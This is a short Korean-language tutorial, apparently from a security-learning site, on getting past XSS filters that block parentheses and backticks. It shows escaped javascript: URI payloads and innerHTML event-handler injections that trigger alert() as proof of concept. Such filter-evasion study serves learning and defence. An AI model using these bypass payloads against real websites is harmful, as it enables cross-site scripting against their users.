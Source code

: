 1편을 보고오시면 더 이해가 잘됩니다.
![아아아](https://kr.object.ncloudstorage.com/dreamhack-content/page/d93ebd8d44183538e008843f2b814271ccc49795238660d115d82b335312954d.jpg)
# 개요
이번엔 함수 호출을 우회하는법에 대하여 알아보자
들어가기전에 앞서 JavaScript에서는 함수를 호출하는 방법이 크게 2개있는데 Parentheses방법과 Tagged Templates방법이 있다
``` JS
alert(1); // Parentheses
alert`1`; // Tagged Templates
```
**하지만** 괄호와 백틱이 필터링된다면 여러가지 방법으로 우회할 수 있습니다
# 1. javascript 스키마를 이용한 location 변경
javascript: 스키마를 이용하면 URL창에 입력된 값으로 자바스크립트 코드를 실행할 수 있다. 이를 이용해 location를 바꾸어 우회할 수 있다.
``` JS
location="javascript:alert\x28document.domain\x29;";
location.href="javascript:alert\u0028document.domain\u0029;";
location['href']="javascript:alert\050document.domain\051;";
```
# 2.document.body.innerHTML 추가
자바스크립트에는 문서 내에 새로운 HTML 코드를 추가할 수 있다.
하지만 이런식으로 코드를 삽입하면 script 태그가 작동하지 않기때문에 이벤트 핸들러를 이용해야한다
``` JS
document.body.innerHTML+="<img src=x: onerror=alert&#40;1&#41;>";
document.body.innerHTML+="<body src=x: onload=alert&#40;1&#41;>";
```

